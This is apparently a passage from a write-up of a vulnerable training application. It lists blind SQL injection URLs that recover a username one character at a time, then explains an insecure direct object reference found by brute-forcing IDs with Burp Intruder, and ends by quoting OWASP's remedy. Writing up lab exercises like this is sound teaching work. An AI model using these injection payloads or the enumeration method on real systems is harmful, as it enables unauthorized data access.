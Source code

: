
```
http://localhost:5000/home/(select%20case%20when%20substr(UserName,1,1)='A'%20then%201%20else%204%20end%20from%20users%20limit%200,1)
http://localhost:5000/home/(select%20case%20when%20substr(UserName,2,1)='d'%20then%201%20else%204%20end%20from%20users%20limit%200,1)
http://localhost:5000/home/(select%20case%20when%20substr(UserName,3,1)='m'%20then%201%20else%204%20end%20from%20users%20limit%200,1)
http://localhost:5000/home/(select%20case%20when%20substr(UserName,4,1)='i'%20then%201%20else%204%20end%20from%20users%20limit%200,1)
http://localhost:5000/home/(select%20case%20when%20substr(UserName,5,1)='n'%20then%201%20else%204%20end%20from%20users%20limit%200,1)

```

Caused based on the same problem:


![](https://i.imgur.com/A1jp00Z.png)




## Task 22: Insecure direct object reference


Insecure Direct Object References occur when an application provides direct access to objects based on user-supplied input. As a result of this vulnerability attackers can bypass authorization and access resources in the system directly, for example database records or files.

IDOR do not bring a direct security issue because, by itself, it reveals only the format/pattern used for the object identifier. IDOR bring, depending on the format/pattern in place, a capacity for the attacker to mount a enumeration attack in order to try to probe access to the associated objects.

Enumeration attack can be described in the way in which the attacker build a collection of valid identifiers using the discovered format/pattern and test them against the application.



### Implementation:

For this one I used burpsuit intuder section to bruteforce the id of the pdf.

The size of one of them was different in the begining of the process and I tried it and it was successfull.


![](https://i.imgur.com/Yf5Un1O.png)

![](https://i.imgur.com/vIEHw3L.png)
    



How to solve?
Owasp says:

> The proposal use a hash to replace the direct identifier. This hash is salted with a value defined at application level in order support topology in which the application is deployed in multi-instances mode (case for production).
